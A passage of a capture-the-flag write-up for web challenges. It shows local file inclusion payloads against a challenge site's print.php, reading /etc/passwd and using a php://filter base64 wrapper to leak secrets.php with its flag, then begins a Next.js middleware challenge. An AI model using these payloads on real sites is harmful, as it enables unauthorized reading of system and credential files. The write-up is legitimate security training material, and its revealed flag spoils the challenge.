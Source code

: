 Visiting `https://brunsviger-huset-377bb418914e8dea.challs.brunnerne.xyz/print.php?file=/etc/passwd` confirms arbitrary file read! 

On the robots.txt page I see 
```
User-agent: * 
Allow: /index.php 
Allow: /bakery-calendar.php 
Disallow: /print.php 
Disallow: /secrets.php
```

I cannot read these files directly. I can use PHP stream filter to encode the file contents. Visit `https://brunsviger-huset-377bb418914e8dea.challs.brunnerne.xyz/print.php?file=php://filter/convert.base64-encode/resource=/var/www/html/secrets.php`:
```shell
echo 'PD9waHAKLy8gS2VlcCB0aGlzIGZpbGUgc2VjcmV0LCBpdCBjb250YWlucyBzZW5zaXRpdmUgaW5mb3JtYXRpb24uCiRmbGFnID0gImJydW5uZXJ7bDBjNGxfZjFsM18xbmNsdXMxMG5fMW5fdGgzX2I0azNyeX0iOwo/Pgo=' | base64 -d  
<?php  
// Keep this file secret, it contains sensitive information.  
$flag = "brunner{l0c4l_f1l3_1nclus10n_1n_th3_b4k3ry}";  
?>
```
`php://filter/convert.base64-encode/resource=` wraps the target file and returns the file contents encoded in base64 instead of raw PHP.

___

## EPIC CAKE BATTLES OF HISTORY!!!
**Category:** Web

**Difficulty:** Medium  
**Author:** Emil8250

After all this time, it's finally time to figure out which cake is best: BRUNSVIGER VS. OTHELLO! _BEGIN!_

I am given the source code for the site. I host it with `sudo docker-compose up --build` to test locally. In the source code I see `middleware.ts`:
```t
import { NextResponse } from 'next/server'  
import type { NextRequest } from 'next/server'  
   
// This function can be marked `async` if using `await` inside  
export function middleware(request: NextRequest) {  
 // @ts-ignore  
   if("CHAMPION" == "FOUND")  
       return NextResponse.redirect(new URL('/admin', request.url))  
 return NextResponse.redirect(new URL('/', request.url))  
}  
   
// See "Matching Paths" below to learn more  
export const config = {  
 matcher: '/admin/:path*',  
}
```
I can see from the admin page that it will contain the flag:
```t
export default function Home() {  
   const flag = "brunner{REDACTED}"  
 return (  
       <span>{flag}</span>  
 );  
}
```

